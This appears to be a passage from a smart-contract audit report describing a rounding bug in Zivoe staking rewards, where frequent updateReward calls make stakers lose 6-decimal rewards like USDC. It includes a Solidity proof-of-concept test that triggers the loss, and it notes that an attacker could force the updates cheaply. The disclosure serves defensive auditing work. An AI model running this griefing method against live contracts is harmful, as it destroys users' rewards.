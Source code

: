 Here we have 3 critical conditions for the rounding to happen.

1. The token must be 6 decimals. (it would be more feasible with even lower decimals but those are not popular).
2. Staked token to be 25 times bigger compared to the reward
3. The `updateReward` modifier is to be called every 60 seconds. This can happen during normal user interaction between the protocol but also an attacker could be making the cheapest calls to some of the main functions in order to trigger the update. **Please note** that the time between updates can be much larger if the difference between the staked and reward tokens is more than 25 times (I just selected these values for the example).

We could have different scenarios in which the rounding and loss of rewards works:

* 50_000_000 Senior staked, 2_000_000 USDC as reward, 60 second update period
* 10_000_000 Senior staked, 40_000 USDC as reward, 600 seconds update period (10 minutes)
  ...

## Impact
All staked users can lose their USDC or other low decimal token rewards due to rounding.

## Code Snippet
Place the POC at the bottom of Test_ZivoeRewards.sol

```solidity
function test_Rewards_Poc() public {
      // adds a new reward with 6 decimals
      assert(zvl.try_addReward(address(stZVE), USDC, 30 days));


      // 1 000 000 ZVE staked
      assert(god.try_push(address(DAO), address(ZVEClaimer), address(ZVE), 1000000 ether, ""));
      ZVEClaimer.forward(address(ZVE), 1000000 ether, address(sam));

      assert(sam.try_approveToken(address(ZVE), address(stZVE), 1_000_000e18));
      assert(sam.try_stake(address(stZVE), 1_000_000e18));

      // deposit 40 000 USDC reward
      mint("USDC", address(bob), 40_000e6);
      assert(bob.try_approveToken(USDC, address(stZVE), 40_000e6));
      assert(bob.try_depositReward(address(stZVE), USDC, 40_000e6));

      // update rewards every minute for a duration of 1 day
      for (uint i = 0; i < (60 * 24 * 1); i++) {
          hevm.warp(block.timestamp + 60);
          assert(sam.try_getRewards(address(stZVE)));
      }

      console2.log("Sam USDC balance after 1 days: ", IERC20(USDC).balanceOf(address(sam)));
  }
```

## Tool used
Manual Review

